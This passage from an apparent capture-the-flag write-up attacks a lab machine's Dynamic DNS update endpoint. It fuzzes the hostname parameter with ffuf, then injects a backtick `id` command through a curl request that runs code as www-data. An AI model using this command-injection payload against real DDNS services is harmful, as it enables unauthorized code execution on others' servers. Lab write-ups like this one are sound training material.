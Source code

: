 This endpoint talking to Bind DNS server using [Dynamic DNS Update API](https://help.dyn.com/remote-access-api/) specifications.

Dynamic DNS (DDNS) is a service that keeps the DNS updated with a web property's correct IP address, even if that IP address is constantly being updated. _Source [cloudflare.com](https://www.cloudflare.com/en-in/learning/dns/glossary/dynamic-dns/)_

This web application providing Dynamic DNS for a number of domains: `dnsalias.htb`, `dynamicdns.htb`, `no-ip.htb`

With API, We can update DDNS from [perform-update](https://help.dyn.com/remote-access-api/perform-update/)
```bash
http://{username}:{password}@members.dyndns.org/nic/update?hostname={yourhostname}&myip={ipaddress}&wildcard=NOCHG&mx=NOCHG&backmx=NOCHG
```

That way we can Create/Update Dynamic DNS entry
```bash
❯ curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=test.dnsalias.htb&myip=10.10.15.71'
good 10.10.14.41
```

## Command Injection in Dyn API

Doing fuzzing with ffuf found special character injection
```bash
❯ ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=FUZZ.dnsalias.htb&myip=0.0.0.0' -ac -v -c

# ... [snip] ...

[Status: 200, Size: 76, Words: 6, Lines: 5]
| URL | http://dynadns:sndanyd@dyna.htb/nic/update?hostname=".dnsalias.htb&myip=0.0.0.0
    * FUZZ: "

:: Progress: [32/32] :: Job [1/1] :: 13 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

get detailed response
```bash
❯ curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=".dnsalias.htb&myip=0.0.0.0'
server 127.0.0.1
zone dnsalias.htb
update delete .dnsalias.htb
good 0.0.0.0
```

And get command injection
```bash
❯ curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=`id`".dnsalias.htb&myip=0.0.0.0'
server 127.0.0.1
zone dnsalias.htb
update delete uid=33(www-data) gid=33(www-data) groups=33(www-data).dnsalias.htb
good 0.0.0.0
```
